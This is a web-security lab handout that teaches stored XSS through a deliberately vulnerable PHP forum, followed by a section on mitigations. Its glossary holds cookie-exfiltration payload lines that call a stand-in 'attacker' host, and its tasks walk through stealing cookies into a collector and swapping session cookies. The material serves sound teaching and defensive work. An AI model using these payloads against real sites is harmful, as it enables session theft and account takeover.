

# XSS (Cross-Site Scripting)

Cross-Site Scripting (XSS) is a class of web vulnerability that allows an attacker to inject malicious scripts into pages viewed by other users. When a victim’s browser renders that injected content, the attacker’s code runs with the same privileges as the legitimate page — enabling theft of session data, account takeover, defacement, phishing, or pivoting to other systems.

This lab demonstrates XSS in a simple forum application. Students will exploit the comments field to perform stored XSS, observe its impact, and then learn practical mitigations.

## What is XSS?

Definition: XSS occurs when an application includes untrusted data in a web page without proper validation or escaping, causing that data to be interpreted as executable code by a user’s browser.

Core idea: Untrusted input → inserted into HTML/JS/CSS context → browser executes it.

## Types of XSS

* **Reflected XSS :** Payload is delivered via a request (URL, form) and reflected back in the immediate response. Typically requires social engineering to get a victim to click a crafted link.
* **Stored (Persistent) XSS :** Payload is saved on the server (database, logs, posts, comments) and served to many users later. High impact because a single injection can affect multiple victims.
* **DOM-based XSS :** The vulnerability lives in client-side JavaScript which reads data from the DOM (e.g., location.search, location.hash, postMessage) and writes it back unsafely (e.g., innerHTML), causing execution without server involvement.

## How XSS is exploited (high level)

1. **Find an injection point** : any input/field that is stored or reflected into a page (search fields, profile pages, comments, file uploads, headers).
2. **Craft a payload** :usually short JavaScript that demonstrates execution (e.g., alert(1)) or performs a real attack (steal cookies, perform actions).
3. **Deliver the payload** : store it (for stored XSS) or trick a victim into visiting a link (for reflected XSS).
4. **Execute & escalate** : the browser runs the payload with privileges of the page (same-origin), enabling actions like reading document.cookie, making authenticated requests, or rendering a fake login form to phish credentials.

## Typical impacts of XSS

* Session theft (read cookies or tokens that are accessible to JS).
* Account takeover by performing actions on behalf of the victim (CSRF-like actions using the victim’s authenticated session).
* Persistent browser-based keylogging or form-grabbers.
* Phishing / UI redressing (inject fake login forms).
* Pivot to internal networks if combined with SSRF or other flaws.

## Glossary — Key Terms & Definitions

| Term | Definition | Example / Notes |
|---|---|---|
| XSS (Cross‑Site Scripting) | A class of vulnerability where an application includes untrusted data in a page that the browser executes as code. | `<script>alert(1)</script>` executed when a page loads. |
| XSS vector | The input or entry point an attacker uses to inject malicious content. | Comment fields, URL parameters, file uploads. |
| Payload | Malicious script or markup injected by an attacker. | `new Image().src="https://attacker/collect?c="+document.cookie` |
| Stored XSS | XSS where payload is persisted on the server and served to other users later. | Comment saved in DB then executed for all viewers. |
| Reflected XSS | XSS where payload is immediately reflected in a response (often via URL), requiring victim to click a crafted link. | `?q=<script>...</script>` in a search page. |
| DOM‑based XSS | XSS that occurs entirely in client‑side JavaScript (no server-side injection). | `location.hash` → `innerHTML` without sanitization. |
| Source (DOM) | Where attacker‑controlled data originates in the client (e.g., `location`, `document.cookie`). | `location.search`, `postMessage` data. |
| Sink (DOM) | The API that causes execution when given attacker data (e.g., `innerHTML`, `eval`). | `element.innerHTML = tainted` triggers execution. |
| Contextual output encoding | Escaping output according to the context (HTML, attribute, JS, URL, CSS). | `htmlspecialchars()` for HTML body text. |
| Sanitization | Removing or filtering dangerous HTML/attributes, usually via a sanitizer library with an allowlist. | DOMPurify used to clean rich HTML. |
| HttpOnly cookie | A cookie flag that prevents JavaScript from reading the cookie via `document.cookie`. | Primary defense against JS-based cookie theft. |
| Secure cookie | A cookie flag that allows sending the cookie only over HTTPS. | Prevents cookie over plaintext HTTP. |
| SameSite | Cookie attribute limiting cross-site sending of cookies (`Lax`, `Strict`, `None`). | Mitigates some CSRF/exfiltration vectors. |
| Content Security Policy (CSP) | HTTP header that restricts allowed script sources, inline scripts, and network destinations. | `Content-Security-Policy: default-src 'self';` |
| Nonce / Hash (CSP) | A per-response token or hash allowing specific inline scripts under CSP. | Use `nonce-...` to permit approved inline scripts. |
| Template engine | Server-side tool that renders templates and ideally auto-escapes variables. | Jinja2, Handlebars, Razor — enable autoescape. |
| Rich‑text editor | Client-side WYSIWYG editor that outputs HTML (must be sanitized server-side). | CKEditor, TinyMCE — sanitize server-side. |
| Encoder | Library/function that escapes data for a specific context. | HTML encoder, JS-string encoder, URL encoder. |
| Cookie theft / exfiltration | Action of sending readable cookies or tokens to an attacker-controlled endpoint. | `fetch('https://attacker/collect',{method:'POST',body:...})` |
| Session hijacking | Using stolen session tokens/cookies to impersonate a user. | Replay stolen session cookie in another browser. |
| Input validation | Checking incoming data for allowed format/values (defense-in-depth). | Reject overly long or malformed inputs. |
| Output escaping | The act of encoding data right before rendering into a specific context. | Always escape before writing into HTML. |
| Principle of least privilege | Design principle: give users/components the smallest privileges necessary. | Limit what a script or user can do. |
| Allowlist (whitelist) | A safe list of permitted tags/attributes when sanitizing HTML. | Allow `<b>`, `<i>`, disallow `<script>`. |
| Defense‑in‑depth | Multiple layers of security controls (client + server + headers + cookies). | Combine sanitization, HttpOnly cookies, CSP, and logging. |


## Learning objectives for this lab

* Identify where untrusted input reaches the rendered page (attack surface mapping).
* Differentiate reflected, stored, and DOM XSS in practice.
* Execute a controlled stored XSS proof-of-concept in the forum comments.
* Implement and verify mitigations: contextual output encoding, safe DOM APIs, sanitization, and CSP.
* Appreciate responsible disclosure and safe lab practices (only test in authorized environments).

## Lab Use Case — Attack Scenario (Forum comment stored XSS)

In this lab we’ll demonstrate a stored XSS attack in a simple forum by injecting JavaScript into the comments field. Students will see three concrete effects in a controlled environment:
1. executing visible messages in the victim’s browser (e.g., alert()),
2. modifying the page DOM (inserting or changing elements), and
3. simulating cookie theft (sending cookie data to a lab-controlled collector).

After the attack exercises, students will implement and verify mitigations using frontend and backend validation, and learn how to safely integrate and validate content from a rich-text editor (for example, CKEditor) on the server side.

### Scenario overview

Attacker (student A) logs in and posts a comment containing a malicious payload (stored in the database).

Victim (student B) visits the post page; the page renders the stored comment and the injected script runs in the victim’s browser.

#### Observed effects (demonstrations):

* Message: a simple `alert('XSS')` shows that code executed.
* DOM modification: injected script inserts or replaces page elements (e.g., adds a banner or form).
* Simulated data exfiltration: script sends `document.cookie` (or another demo value) to a collector URL under instructor control.

## Lab Setup 

### Step 1 — Setup the database

Create a new database named forum_lab, then reproduce the tables and relationships exactly as represented in the model  (MPD) shown in the figure below using phpMyAdmin or any other database management tool of your choice. Make sure to define the correct data types, primary keys, and foreign key relationships between users, posts, and comments.

Once the database structure is complete, insert a few dummy records manually to prepare for testing in the next steps.



### Step 2 — Create the Login page

Build a login page that authenticates users against the users table and starts a session.

**Tasks:**
1. Create login.php (or equivalent) with a form for username and password.
2. Implement server-side authentication: query the users table and verify credentials.
3. On successful login, store user information (ID, username, role) in the session and redirect to the posts page.
4. On failure, show a friendly error message and allow retry.
5. Provide a logout link/page that destroys the session.


### Step 3 — Create the Posts page (list of posts)

Show all posts with author and a link to each single-post view.

**Tasks:**

1. Create posts.php that lists posts in reverse chronological order.
2. For each post show: title, author username, created timestamp, and a snippet or the first lines of body.
3. Make the title (or a “View” link) point to the single post page (e.g., "post.php?id=\<post_id\>)".
4. Display the currently logged-in username and a logout link.


### Step 4 — Create the Single Post page with Comments and Add Comment form

Implement the post detail page where users can view comments and add a new comment (this is the XSS attack surface).

**Tasks:**

1. Create post.php?id=\<post_id\> that shows the full post (title, body, author, timestamp).
2. Fetch and display all comments for that post, showing commenter username and comment content.
3. Add a form under the comments section that allows logged-in users to submit a new comment (textarea + submit button).
4. On comment submission, insert the comment into the comments table with the current user id and redirect back to the same post so the newly added comment appears.
5. Ensure the page is accessible only to logged-in users.


## Attack simulations
### 1. Simple message (stored XSS alert)

Objective: Demonstrate a stored XSS that executes a visible message in a victim’s browser (benign alert()), using the forum comment field as the injection point.

**Preconditions**
* Database (forum_lab) and web app from Steps 1–4 are running.
* You have at least two user accounts (use one as Attacker and another as Victim).
* The post detail page renders comment content without escaping (this is the lab setup).

#### Attack steps

1. **Authenticate as the Attacker :** Log in with the attacker account (e.g., moderator or any non-victim account).
2. **Open a target post :** Navigate to one of the existing posts (the page created in Step 4).
3. Submit a comment containing a benign script payload :In the comment textarea, enter the payload:
```html
<script>alert('XSS — stored')</script>
```
4. **Verify storage :** Confirm the comment appears in the comments list (it should show the payload as stored text in the DB).
5. **Switch to the Victim :** In a different browser or an incognito window (so you’re not the same session), log in as the Victim (or simply visit the post page if comments are public).
6. **View the post page as Victim :** Open the same post. When the page loads and renders the stored comment, you should see a browser alert pop up with the message XSS — stored.

#### Expected result
* The alert() dialog with the message XSS — stored appears in the victim’s browser when viewing the post.
* The comment containing the script is stored in the database (confirmable via phpMyAdmin if desired).
* This proves that untrusted input saved in the DB is being executed when rendered — i.e., stored XSS.


### 2. DOM manipulation exercise

> Using the forum comment XSS payload, craft a stored-XSS payload that, when rendered in a victim’s browser, replaces the entire page content with the message: Hacked by \<YourName\>


**Or You can make it with Black hat style**


### 3. Cookie-theft via Stored XSS

#### Explanation (what happens)

In a cookie-theft attack using stored XSS, an attacker injects JavaScript into a web application (for example, via a comment). That malicious script runs inside the victim’s browser when they view the vulnerable page. If the application stores authentication/session information in a cookie that is accessible to JavaScript, the injected script can read that cookie (e.g., document.cookie) and send its value to a server the attacker controls. Once the attacker has the session token, they can impersonate the victim (use the token in their own browser) and perform actions as that user.

##### Main steps:

1. The attack executes in the victim’s browser and leverages the browser’s same-origin privileges for the vulnerable site.
2. The attack succeeds only if the session cookie (or other sensitive token) is readable by JavaScript (i.e., not marked HttpOnly).
3. This is a client-side exploit that abuses insecure output handling (the app rendering untrusted content without escaping) — it’s not a bug in the browser itself.


##### Preconditions (what must be true for the attack to work)

1. Vulnerable injection point exists and is persistent: The application accepts attacker-controlled input (comments, posts, profile fields, etc.) and stores it (stored XSS).
2. Rendering without proper escaping or sanitization: The stored content is later rendered into a page in a way that allows scripts to execute (e.g., inserted using innerHTML or written unescaped into server-side templates).
3. Victim visits the page: The target user must load the page that contains the malicious stored payload (or be tricked into loading it).
4. Readable cookie/token: The authentication/session cookie (or other sensitive token) is accessible to JavaScript — i.e., it is not flagged HttpOnly. If HttpOnly is set correctly, scripts in the page cannot read document.cookie to access that cookie.
5. No protective policies blocking exfiltration: There are no strict Content Security Policy (CSP) rules preventing connections to the attacker’s collector or inline script execution is allowed.
6. Attacker-controlled receiver: The attacker has a receiving endpoint (in real attacks, an external server) where exfiltrated data is sent. In a lab, this should be a controlled, instructor-managed collector.

##### Impact (what the attacker can do)
1. Session hijacking / account takeover if the stolen cookie is a valid session token.
2. Privilege escalation or data access using the victim’s authenticated session.
3. Further pivoting by performing actions as the victim (posting, sending messages, changing account settings).
4. Persistent compromise if the attacker plants other payloads or modifies content to spread the exploit.

#### Task 1 — Create a payload that logs cookies & client storage to the browser console

Objective: write a small XSS payload that, when executed in a victim’s browser, prints readable client-side data to the browser console for inspection (no network requests).

**Steps:**

* Build a script that reads document.cookie, sessionStorage, and localStorage (or other JS-accessible values) and prints them to the browser console in a readable form.
* Ensure the payload uses try/catch to avoid stopping execution if a storage API is inaccessible.
* Submit the payload as a comment on a chosen post (the stored XSS vector).
* As the victim (different browser or incognito), open the post and observe the console output.

**Verification:**

* When viewing the post as the victim, the browser console shows the cookie string (if any readable cookies exist) and the contents of sessionStorage/localStorage (or safe error messages).
* No network requests or external endpoints are contacted by this payload.


#### Task 2 — Implement a simple local JSON collector (PHP)

Objective: create a minimal lab-only HTTP endpoint that accepts JSON POSTs and stores them for later inspection.

**Steps:**

1. Create a small PHP script (single file) that:
    - Accepts POST requests with a JSON body at an endpoint such as /collect.
    - Stores each received JSON payload to a local file (or returns it for inspection).
    - Provides a simple browser-viewable page (e.g., /) that lists stored payloads.
2. Run the PHP built-in server on localhost (instructor may suggest a port, e.g. 9000).
3. Confirm the collector is reachable via http://127.0.0.1:9000 and that POSTing JSON stores an entry.

**Verification:**

* You can browse the collector page and see stored JSON entries.
* A manual POST (from a tool like curl/Postman) containing a small JSON object is accepted and shown on the collector UI.


#### Task 3 — Create a payload that sends readable cookies & storage to your local collector

Objective: build a stored-XSS payload that gathers readable client data and submits it as JSON to your local collector endpoint.

**Steps:**

1. Write a script that gathers the same data as Task 1 (readable cookies, sessionStorage, localStorage, plus page URL/title).
2. Convert that data to JSON and send it via an HTTP POST to your local collector endpoint (the PHP server from Task 2).
3. Submit this script as a comment on a post (stored XSS vector).
4. With the collector running, open the post as the victim (different browser or incognito) and observe that the collector receives an entry containing the JSON payload.

**Verification:**

* The collector UI (/) shows a new entry with the JSON payload containing cookie and storage values and page metadata.
* The collector entry includes a timestamp and the origin/IP metadata (as provided by the collector).


#### Task 4 — (Attack run) Store the payload and trigger the victim view

Objective: demonstrate the full stored-XSS flow: attacker stores payload, victim loads page, collector receives data.

**Steps:**

1. As Attacker (one browser/session), post the payload created in Task 3 into the comments field of a target post.
2. Ensure the comment is stored (confirm via posts page or DB view).
3. In a separate browser or incognito session, as Victim, load the target post page.
4. Observe the collector UI to confirm the payload execution produced a stored JSON entry.

**Verification:**

* The collector shows an entry timestamped when the victim loaded the page.
* The payload did not break the page rendering beyond its intended (benign) behavior.


#### Task 5 — Change cookies in Chrome to simulate session swapping (becoming another user)

Objective: practice changing a cookie value locally in Chrome so you can observe how swapping a session cookie changes server behavior (if the server accepts the cookie).

**Steps :**
1. Identify the session cookie name used by the application (e.g., session, PHPSESSID, or a custom name).
2. Using Chrome DevTools → Application → Cookies, edit the cookie value to a chosen test value (or to a value copied from another dummy account if teacher provides one).
3. Refresh the application page and observe whether the server treats your session as a different user (may require server-side behavior that accepts simple token values).
4. Optionally, repeat the collector attack (Tasks 3–4) while the cookie has been swapped to observe whether the collector shows different session-related data.

**Demonstration**

[Cookie-theft.mp4]()

## Fixing XSS — printing user data safely & validating on submit

This section explains how to stop XSS in two places you control:

1. When printing/rendering stored user content to pages (output encoding / safe DOM use).
2. When accepting content from users (validation & sanitization on submit).

Keep in mind: never trust client-side validation alone — always validate & sanitize on the server (defense in depth).

### 1 — Safe printing / rendering (output is the most important place)

Principle: Treat everything from users as untrusted and escape/encode it for the exact context where it will appear.

**Rules by context:**

* HTML body text (visible text) → HTML-escape (& > < " ') before inserting.
* HTML attribute → attribute-encode and always quote attributes.
* JavaScript string → JS-string escape (don’t inject raw user input into script blocks).
* URL / query → encodeURIComponent() or server-side percent-encoding.
* CSS → CSS escaping when injecting into styles.
* DOM insertion → prefer textContent / innerText over innerHTML.

Minimal PHP example (server-side escaping)

```php
// When rendering comment content as plain text in HTML:
echo htmlspecialchars((string) $comment['content'], ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
```

Minimal JS example (safe DOM insertion)

```javascript
// unsafe: el.innerHTML = userInput;
el.textContent = userInput; // safe: renders as text, not HTML
```

**If you must allow HTML (rich text)**

Sanitize it with a vetted HTML sanitizer on the server (and optionally on the client) using a strict allowlist (tags/attributes). Example libraries:

* PHP: HTMLPurifier or similar.
* Node: DOMPurify (server build) + sanitize-html.
* Python/Java: use their vetted sanitizers.

After sanitization, store the sanitized HTML and still apply a CSP.


### 2 — Validation & sanitization on submit (prevent dangerous content at entry)

Principle: Validate shape and content; sanitize only what's necessary.

**Server-side validation (always required):**

* Whitelist input types and length. Example: comments => allow text up to N characters, optional basic formatting.
* Reject or sanitize disallowed content rather than trying to “clean” everything ad-hoc.
* If accepting HTML from rich editors, run it through a server-side sanitizer that removes scripts, on* attributes, javascript: URLs, \<iframe\>, \<object \>, and dangerous CSS.

**Client-side validation (optional, UX only):**

* Use simple checks (length, required fields) to help users — but never rely on this for security.

**Example server-side sanitization flow :**

1. Receive POST body from user.
2. Validate fields (length, type).
3. If HTML is allowed: run server-side sanitizer with a strict allowlist.
4. Store sanitized result in DB.
5. When rendering, still escape where appropriate (defense in depth).


### 3 — Rich-text editors (CKEditor etc.) — safe integration

* Configure the editor to limit features (no script insertion, no iframe, disable style attributes if not needed).
* Always sanitize on the server — do not trust the editor’s client-side filters alone.
* Optionally transform editor HTML to a safe subset (e.g., sanitized HTML or Markdown) before storing.
* Remove inline event handlers (on*), javascript: URLs, and data: URIs unless explicitly allowed.

### 4 — Additional platform protections

* HTTP-only cookies: mark session cookies HttpOnly so JS cannot read them.
* Secure + SameSite: set Secure and SameSite=Lax/Strict as appropriate.
* Content Security Policy (CSP): use CSP to reduce impact:
  * disallow unsafe-inline scripts,
  * use script nonce/hash for allowed inline scripts,
  * restrict connect-src to deny exfiltration endpoints.
* Use framework features: modern templating frameworks often auto-escape by default — use that feature rather than manual concatenation.
* Avoid dangerous sinks: don’t use eval, new Function, document.write, or unsafely construct innerHTML.


## Mini Project — Rich-Text Forum (Homework)

Objective:
Build a forum app with rich-text comments (CKEditor/Quill or similar). Provide two versions: vulnerable (stores & renders raw HTML) and fixed (sanitizes + hardens). Demonstrate the XSS problem and the fix.

#### What you must know / deliver
1. Why: Rich editors produce HTML — if stored and rendered raw they enable stored XSS.
2. Deliverables (single PDF):
   * A short description of your setup (which editor, server language).
   * Evidence for the vulnerable app: stored payload, victim view screenshot(s).
   * Evidence for the fixed app: same payload neutralized, screenshot(s).
   * The exact payloads you used (for instructor review).
   * Short remediation summary (what you changed and why).

### Submission (single PDF only)

Create **one** PDF file and submit it via the Google Form link below (demo — replace later):  
**https://docs.google.com/forms/d/e/1FAIpQLSfy5WQdFYPU28b84C4wR7wW4SyCi_1S6q9KRgrHi1Sj3vLQwA/viewform?usp=header**


